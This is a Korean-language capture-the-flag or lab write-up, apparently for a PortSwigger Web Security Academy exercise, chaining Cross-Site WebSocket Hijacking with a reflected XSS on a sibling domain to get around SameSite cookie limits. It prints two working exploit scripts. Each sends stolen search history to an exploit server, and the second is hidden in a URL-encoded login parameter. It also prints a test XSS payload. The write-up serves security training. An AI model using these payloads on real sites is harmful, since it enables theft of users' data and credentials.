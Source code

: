 # 문제 풀이 시나리오
<img width="1570" height="962" alt="스크린샷 2025-09-08 143050" src="https://github.com/user-attachments/assets/5999f202-c3bb-48e4-964c-d166c0fc7fef" />

## 1. 검색 기능 분석

- 검색창에 무언가를 검색하면 검색 기록도 반환됨
- 검색 기록은 세션에 따라 반환됨
- 개발자 툴을 통해 살펴보면 웹소켓 통신을 확인하면 Socket.IO 프로토콜을 확인할 수 있
- CSWSH(Cross-Site WebSocket Hijacking) 취약점 가능성을 발견할 수 있음.
- 페이지 새로고침 시 클라이언트는 READY 메시지를 서버에 보내고, 서버는 해당 세션의 검색 기록을 반환함.
- 단순 new WebSocket(...).send("READY")는 동작하지 않음.
- Socket.IO 클라이언트를 사용해 socket.emit("READY", …) 해야 함.

## 2. CSWSH 취약점 확인

- 참가자는 search.js 코드를 분석하고 공격 스크립트를 작성함.
- 공격 스크립트를 익스플로잇 서버에 보내면, Puppeteer가 이를 자동으로 실행했다고 가정함.
- 즉, 피해자가 실제로 열어보지 않아도, 서버는 공격 스크립트 실행 결과를 victim이 실행한 것처럼 처리함.
    
    ### 2-1. 공격 스크립트 작성
    
    - 웹소켓 주소를 알아내서 READY 메시지를 서버에 보내고 검색 기록을 수집하여 익스플로잇 서버에 전달
        
        ```html
        <script src="http://127.0.0.1:5000/static/js/socket.io.min.js"></script>
        <script>
        const socket = io("http://web:5000"); // Socket.IO 연결
        socket.on('connect', () => socket.emit("READY", {}));
        socket.on('search_history', (data) => {
          fetch(`http://exploit:8000/collect?job=${jobId}&msg=${btoa(data.search_term)}`);
        });
        </script>
        ```
        
    - /logs 확인해보면 검색 기록이 유출되지만 세션 쿠키가 포함되지 않기 때문에 새 세션의 검색 기록만 얻을 수 있음
    - 서버가 SameSite=Strict이기 때문에 크로스사이트 요청에 쿠키를 보내지 않음을 확인할 수 있음

## 3. sibling domain에서 추가 취약점 발견

- 리소스 응답에 Access-Control-Allow-Origin 헤더가 sibling domain을 허용하는 것 확인
- 해당 페이지에 접속해보면 로그인 폼을 확인할 수 있음
- reflected XSS 취약점이 있는 것을 확인할 수 있음
    - `<script>alert(1)</script>` 보내서 확인 가능
- POST 요청을 GET으로 변환해도 XSS가 동작하는지 확인하고(동작함)
    - burp의 change request method로 가능
- URL로 직접 공격 코드 삽입
- sibling 도메인이 같은 사이트로 간주되어 SameSite 쿠키 제한 우회에 이용 가능함

## 4. SameSite restrictions 우회

- 이전 익스플로잇 스크립트를 URL 인코딩해서 sibling domain의 로그인 페이지의 username 파라미터에 삽입하는 코드 작성
    
    ```html
    <script>
    //sibling domain endpoint /login 뒤에 인코딩한 것 전체 복붙
    document.location="https://cms-0a53007a03d749349b3171130036002b.web-security-academy.net/login?username=%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%35%33%30%30%37%61%30%33%64%37%34%39%33%34%39%62%33%31%37%31%31%33%30%30%33%36%30%30%32%62%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%09%20%20%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%39%39%30%30%38%64%30%33%37%30%34%39%36%30%39%62%35%63%37%30%63%35%30%31%36%35%30%30%64%62%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%20%20%20%20%7d%3b&password=z";
    </script>
    ```
    
- 익스플로잇 서버에서 전송
    
    => 전체 검색 기록이 유출됨. 유출된 기록에 admin 로그인 정보 포함
    

### 5. 로그인

- admin 정보를 통해 로그인하면 flag 획득
